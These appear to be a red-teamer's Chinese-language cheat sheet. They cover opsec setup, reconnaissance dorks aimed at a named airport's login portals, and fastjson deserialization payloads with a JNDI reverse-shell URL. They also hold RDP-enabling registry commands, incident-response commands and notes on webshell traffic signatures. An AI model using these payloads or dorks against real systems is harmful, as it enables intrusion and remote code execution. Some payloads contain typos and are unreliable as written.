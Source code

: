 红队打点前准备

1.环境安装在虚拟机中，不要留有个人的相关信息

2.虚拟机和物理机隔断，虚拟机走代理上网，物理机断网

3.使用无痕模式浏览器，安装jsonp请求插件

4.动态IP代理池

5.从目标机器上下载文件放到断网虚拟机中

6.每日重置攻击环境



日志分析之IIS

打开IIS日志，win+R运行打开inetmgr

IIS日志不会记录POST的请求的内容，因为被默认为不安全的请求类型。

如果你想开启记录请求体的内容，则开启asp.net的request.querystring集合



Weblogic防御

禁用T3协议和IIOP协议，大多数漏洞都是基于这两个协议触发的。



命令

lsof -i :端口号	#查看占用端口的进程PID

ps aux | grep "进程PID"	#查看进程服务信息

awk -F: '{if($3==0) print $1}' /etc/passwd	#查看ID=0的有root权限的用户

cat etc/passwd | /grep /bin/bash	#查看可以登录ssh的用户

last 		#显示最近登录用户，会显示登录源ip

cat /var/log/secure 	#查看日志，记录的是与系统安全相关的事件，例如SSH登录尝试、sudo命令使用等



高效信息收集打点

组织架构收集：目标单位官网收集，例如总部部门及相关机构，分部，省公司，分公司，直属单位等等。天眼查子公司，控股公司等等。了解你的目标，以及目标所属行业，不同行业打法不同。

fofa快速找登录口

“大兴机场"&country="CN"&&region!="HK"&&region!="TW"&&region!="MO"&&(title="登录"‖title="系统"‖title-="后台"‖title="平台"‖tite="管理"‖title-="入口")

“大兴机场”&&(app="泛微-协同办公OA"‖app="用友-GRP.U8"‖app="用友-U8"‖app="用友-UFIDA-NC"‖app="致远互联-OA"‖app="TDXK-通达OA"‖app="Landray-OA系统“）



谷歌hack语法
查找后台地址：site:域名 inurl:login|admin|manage memberladmin_loginllogin_admin|system|login|user main|cms
查找文本内容：site:域名 intext:管理|后台|登陆|用户名|密码|验证码|系统帐号ladmin|login|sys|managetem|password|username
查找可注入点：site:域名 inurl:aspx| jsp | php| asp
查找上传漏洞：site:域名 inurl:file|load|editor|Files
找eweb编辑器：site:域名 inurl:ewebeditor | editor | uploadfile | eweb | edit
存在的数据库：site:域名 filetype:mdb | asp|#
查看脚本类型：site:域名 filetype:asp |aspx |php |jsp
迂回策略入侵：inurl:cms/data/templates/images/index/



fastjson漏洞（java组件）

fastjsonPOC合集：[safe6Sec/Fastjson: Fastjson姿势技巧集合 (github.com)](https://github.com/safe6Sec/Fastjson)

POC

content-type:applocation/json

```null
[
	{
		"a":"a\x]
#字符dos攻击,延迟类型的payload，服务器响应出错或者明显变慢就是fastjson
```

```
{"@type":"java.net.InetAddress","val":"dnslog"}
# fastjson<1.2.48 ,DNS类payload，原生域名解析dnslog,适用范围广
```

```
{"name":"sec" ; {"@type":"java.lang.AutoCloseable" ; "a" ; a
#报错类payload,畸形的json,想确定fastjson版本就用这类
```

EXP(<=1.2.24)结合JNDIExploit1.4

```
{"@type":"com.sun.rowsetJdbcRowSetImpl","dataSourceName":"rmi://127.0.0.1:1099/badClassName","autoCommit":true}

{"@type":"com.alibaba.fastison.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetlmpl","dataSourceName":"rmi://127.0.0.1:8088/badClassName","autoCommit":true"}}

#url可以填rmi或者ldap,rmi-->http ladp-->ldap,查看JNDIExploit1.4的使用帮助，构造url进行命令执行或者反弹shell如:ldap://127.0.0.1:1389/Basic/ReverseShell/127.0.0.1/9999
```

当payload不管用时，可尝试以下方法重新构造payload

![image-20240522205455676](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522205455676.png)



fastjson<1.2.47

```
{
"a":{
	"@type":"java.lang.Class",
	"val":"com.sun.rowset.JdbcRowSetImpl"
	},
"br":{
	"@type":"com.sun.rowset.JdbcRowSetImpl",
	"dataSourceName":"ldap://localhost:808/badNameclass",
	"autoCommit":true
 	}
}
```

fastjson高版本

版本>=1.2.48，默认关闭Autotype功能，启动黑白名单防护

![image-20240522211853168](C:\Users\Yitai\AppData\Roaming\Typora\typora-user-images\image-20240522211853168.png)



windows文件下载命令

certutil

启用3389端口桌面连接命令

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

关闭3389桌面连接

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000001 /f

查询远程桌面连接的端口号

REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\winStations\RDP-Tcp" /V PortNumber

3389的16进制-->0xd3d

3389连不上原因
1.3389端口号修改了
2.3389没开
3.有些用户没有rdp权限



Apache Shiro框架提供了记住我的功能（RememberMe），用户登陆成功后会生成经过加密并编码的cookie，在服务端接收cookie值后，Base64解码–>AES解密–>反序列化。攻击者只要找到AES加密的密钥，就可以构造一个恶意对象，对其进行序列化–>AES加密–>Base64编码，然后将其作为cookie的rememberMe字段发送，Shiro将rememberMe进行解密并且反序列化，最终造成反序列化漏洞。

Struts 2 使用 Object-Graph Navigation Language（OGNL）作为其默认的表达式语言，用于在视图和控制器之间进行数据交换。攻击者可以构造恶意的OGNL表达式，通过Web请求传递到Struts 2框架中。

 Apache log4j2-RCE 漏洞是由于Log4j2提供的lookup功能下的Jndi ==Lookup==模块出现问题所导致的，==该功能模块在输出日志信息时允许开发人员通过相应的协议去请求远程主机上的资源。而开发人员在处理数据时，并没有对用户输入的信息进行判断，导致Log4j2请求远程主机上的含有恶意代码的资源 并执行其中的代码，从而造成远程代码执行漏洞。



蚁剑流量特征

漏洞参数pass的开头为@ini_set("display_errors", "0")

如：pass=@ini_set("display_errors", "0")xxxxxxxxxxxxx



冰蝎流量特征

固定的请求头和响应头

请求字节头：

dFAXQV1LORcHRQtLRlwMAhwFTAg/M

响应字节头：

TxcWR1NNExZAD0ZaAWMIPAZjH1BFBFtHThcJSlUXWEd
